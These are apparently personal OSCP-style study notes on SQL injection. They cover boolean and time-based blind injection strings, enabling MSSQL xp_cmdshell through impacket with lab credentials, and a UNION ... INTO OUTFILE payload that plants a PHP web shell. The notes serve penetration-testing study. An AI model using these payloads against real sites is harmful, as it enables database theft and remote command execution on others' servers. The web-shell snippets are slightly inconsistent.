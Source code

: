 

# SQL Injection
[SQL](../../coding/languages/SQL.md) injection is a type of attack which leverages poor security practices when implementing SQL in an application. If user input is not properly sanitized, then an attacker can use SQLi to manipulate backend databases by making queries to them using SQL.
![My notes on SQLi](../../cybersecurity/TTPs/exploitation/injection/SQLi.md)

![My notes on UNION Attacks](../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md)

# Blind SQL Injections
SQLi where the results are returned back to you are called "in-band." Conversely, SQLi where the results are *not* returned back to you are called "blind." Because the results aren't returned, you have to infer the outcome, usually via boolean or time-based logic.
## Boolean Based SQLi
Boolean based SQLi causes the application to return differing and predictable values when the query returns a `TRUE` or `FALSE` result. The results returned back to you *are usually from the web application* and not the actual database.
### Example
Let's say we have a web application hosted using [PHP](../../coding/languages/PHP.md), and we notice in the address bar it has a `user` parameter:
```
http://vulnerable.com/dashboard.php?user=trshpuppy
```
When you're logged in as the user `trshpuppy` this is the url when you visit your dashboard. We can check for blind SQLi here with a boolean-based check like this:
```sql
http://vulnerable.com/dashboard.php?user=trshpuppy' AND 1=1 -- //
```
If the user `trshpuppy` is true, then the whole query with the injection should resolve as true. So, when we append our injected `AND` statement, the same content should appear on the page as when we don't append it. Using this boolean-based attack, we can enumerate the entire database for existing usernames.
## Time Based SQLi
In time based blind SQLi, an attacker uses differences in *response time* to conclude if an attempted query is `TRUE` or `FALSE`.
### Example
If we're looking at the same web application as the example above (boolean based section), then we can use a time based technique to check for SQLi by adding an `IF` condition:
```sql
http://vulnerable.com/dashboard.php?user=trshpuppy' AND IF (1=1, sleep(3), 'false') -- //
```
In [SQL](../../coding/languages/SQL.md) the `IF()` function checks the first parameter (`1=1`), and if it's true it will sleep for 3 seconds (`sleep(3)`), and if it's false, it will return `false`. Since `1=1` is true, we expect the application to sleep for 3 seconds. However *that will only happen if the user `trshpuppy` is also true*.

So, time based blind SQLi can also be used for enumeration. If the user is false (doesn't exist), the application should immediately error (or do whatever behavior we observed it doing for usernames which don't exist). If the user is true (does exist), then the application should time-out for 3 seconds before returning any content.
# Manual Code Execution
Depending on how the SQL server is configured on a target, we can use it to *achieve code execution*. For example, in [MSSQL](../../CLI-tools/windows/MSSQL.md) servers the `xp_cmdshell` function takes a string and passes it to a command shell for execution. Any output returned from the shell is returned by MSSQL as rows or text. Usually, it is disabled by default. But once it's enabled, it can called in a SQL query by using the `EXECUTE` keyword.
## In MSSQL
To enable `xp_cmdshell`, we can use the `impacket-mssqlclient` tool. Once we're connected to the target MSSQL server, we can give the following command query:
```sql
> EXECUTE sp_configure 'show advanced options', 1;


INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
```
`sp_configure` is another MSSQL command ('procedure') which displays global configuration settings for the current server. You can use it to view options or modify settings. Additionally, you can give it `1` or `0` as a parameter to enable or disable specific commands:
```sql
-- Use sp_configure to enable "show advanced options"
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use sp_configure to enable "xp_cmdshell"
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

-- Use RECONFIGURE to apply the changes:
SQL> RECONFIGURE;
```
Once a change is made, run `RECONFIGURE` to apply it. Now we can execute any Windows shell command we want.
## In MySQL
Unlike MSSQL, [MySQL](../../CLI-tools/linux/mysql.md) does not have something like `xp_cmdshell` to execute commands. Instead, we can abuse the `INTO_OUTFILE` statement to write files to the vulnerable web server. For this to work, the user running the MySQL instance *has to have write permission* to the file's location. 
### Using `UNION` & `INTO OUTFILE` to write a web shell
We can use the [UNION keyword](../../cybersecurity/TTPs/exploitation/injection/UNION-attack.md#UNION%20keyword) to write a [web-shell](../../cybersecurity/TTPs/exploitation/web-shell.md) to disk. For this example to work, the web application needs to be vulnerable to a UNION attack *AND* be running [PHP](../../coding/languages/PHP.md). If by investigating the UNION attack we've discovered that the output returned from the vulnerable SQL query includes 5 columns, then we can use `UNION SELECT` to inject PHP script using one of the joined columns.

Then we can use `USE OUTFILE` to create the file we want to write the PHP code into:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
The resulting `webshell.php` file would contain this:
```php
<? system($_REQUEST ['cmd']); ?>
```
In this code, the `system` function parses the statement given to it (via the `cmd` parameter) coming from the client's [HTTP](../../www/HTTP.md) request. This should create an *interactive* web command shell for us. 
### Executing the webshell
Now that our file is written to disk, we can try accessing it by simply navigating to it in the browser (since we wrote it to the web server's root):
![](../oscp-pics/SQLi-1.png)
# Automated Code Execution
Instead of doing manual exploitation to achieve code execution, we can use some automated tools. 
## sqlmap
[`sqlmap`](https://sqlmap.org/) is a tool which does automatic SQLi for us.
![My notes for sqlmap here](../../cybersecurity/TTPs/exploitation/tools/sqlmap.md)


> [!Resources]
> - [W3 Schools: MySQL IF() Function](https://www.w3schools.com/sql/func_mysql_if.asp)
> - [Beagle Security: Time Based SQLi](https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.